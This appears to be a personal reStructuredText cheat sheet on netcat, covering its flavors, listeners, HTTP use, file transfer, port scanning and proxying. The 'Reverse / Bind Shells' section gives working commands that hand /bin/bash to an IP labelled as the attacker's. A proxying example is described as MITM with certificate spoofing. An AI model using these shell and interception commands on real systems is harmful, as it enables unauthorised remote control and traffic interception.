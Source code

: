 
======
Netcat
======
* `Netcat - All you need to know <https://blog.ikuamike.io/posts/2021/netcat/>`_
    - `HN <https://news.ycombinator.com/item?id=27973020>`__
* `10 useful ncat (nc) Command Examples for Linux Systems <https://lpicentral.blogspot.com/2018/08/10-useful-ncat-nc-command-examples-for.html>`_
* `How to Use Netcat Commands: Examples and Cheat Sheets <https://www.varonis.com/blog/netcat-commands/>`_

Netcat flavors
==============
* Traditional
    - ``sudo apt install netcat-traditional``
    - if other flavor present, call ``nc.traditional`` binary
    - legacy
* GNU
    - To be `downloaded <http://netcat.sourceforge.net/>`__
    - rewritten to be more portable
    - legacy
* OpenBSD
    - ``sudo apt install netcat-openbsd`` (or just ``netcat``)
    - has ``-e`` flag deleted as dangerous
    - supports IPv6, proxies and unix sockets
* Nmap
    - ``sudo apt install ncat``
    - most feature rich

Server / Client mode
====================

Server:

.. code-block:: sh

    nc -lp 8080
    nc -ls 127.0.0.1 -p 8080  # bind to localhost
    nc -lup 8080              # udp
    nc -lk 8080               # force server to stay up
    nc -lU /tmp/socket        # listen to unix socket

Client:

.. code-block:: sh

    nc - 127.0.0.1 8080
    nc -u 127.0.0.1 8080  # udp

Reverse / Bind Shells
=====================

Reverse shells:

.. code-block:: sh

    # Server (attacker machine)
    nc -lp 8080
    # Client (victim machine)
    nc -e /bin/bash 192.168.125.10 8080

Bind shells:

.. code-block:: sh

    # Server (victim machine)
    nc -e /bin/bash -lp 8080
    # Client (attacker machine)
    nc 192.168.125.10 8080

Ncat encrypted reverse shell:

.. code-block:: sh

    ncat --ssl -lp 8080
    ncat --ssl -e /bin/bash 192.168.125.10 8080

    # allow connections only from specific host
    nc --allow 127.0.0.1 -e /bin/bash -lvnp 8000

HTTP Client and Server
======================

Client:

.. code-block:: sh

    {
    cat <<EOF ; sleep 1;
    GET / HTTP/1.0
    Host: wttr.in
    User-Agent: curl

    EOF
    } | nc wttr.in 80

Server:

.. code-block:: sh

    {
    cat <<EOF ; sleep 1;
    HTTP/1.0 200 OK
    Content-Length: $(wc -c <~/.profile)

    EOF
    cat ~/.profile
    } | nc -l 8000

File Transfer
=============

Example:

.. code-block:: sh

    # server1 --> server2
    nc -lp 8080 < infile              # server1
    nc 192.168.125.10 8080 > outfile  # server2

    # server1 <-- server2
    nc 192.168.125.20 8080 < infile  # server1
    # OR nc --send-only 192.168.125.20 8080 < infile  # server1
    nc -lp 8080 > outfile          # server2

Port Scanning
=============

Example:

.. code-block:: sh

    # TCP
    nc -nvv -w 1 -z 127.0.0.1 1-65535 2>&1 |grep -v refused
    # UDP
    nc -nvv -w 1 -z -u 127.0.0.1 1-65535

Traffic Redirection
===================

Only possible on flavors with ``-e`` option:

.. code-block:: sh

    # server1 <-----> server2 <-----> server3
    # run on server2
    # 192.168.125.40 is server3
    ncat -klvnp 8000 -e "/bin/nc 192.168.125.40 8080"

    # MITM with certificate spoofing example
    curl -s https://storage.yandexcloud.net/cloud-certs/CA.pem > ca.crt
    ncat -klvnp 8443 -e "
        /usr/bin/ncat
            --ssl-verify
            --ssl-trustfile ca.pem
            rc1b-inserttheaddress.mdb.yandexcloud.net 8443
    "
    # Check it's working:
    echo 'SHOW DATABASES' |
        curl 'http://localhost:8443/?user=admin&password=NimdaLol' --data-binary @-

Other option:

.. code-block:: sh

    # One way
    nc -l 8080 | nc 192.168.1.200 80

    # Two way proxy
    mkfifo 2way
    nc -l 8080 0<2way | nc 192.168.1.200 80 1>2way
